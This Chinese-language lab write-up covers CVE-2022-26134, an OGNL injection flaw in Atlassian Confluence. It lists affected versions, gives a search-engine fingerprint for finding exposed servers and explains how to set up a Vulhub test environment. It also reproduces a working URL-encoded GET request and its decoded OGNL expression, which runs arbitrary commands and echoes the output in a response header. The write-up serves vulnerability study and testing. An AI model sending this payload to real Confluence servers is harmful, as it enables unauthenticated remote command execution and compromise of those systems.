

# Atlassian Confluence OGNL表达式注入命令执行漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
- https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis

## 漏洞影响

```
Atlassian Confluence 7.4.17
Atlassian Confluence 7.13.7
Atlassian Confluence 7.14.3
Atlassian Confluence 7.15.2
Atlassian Confluence 7.16.4
Atlassian Confluence 7.17.4
Atlassian Confluence 7.18.1
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 7.13.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

## 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

其中使用到的OGNL表达式为：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

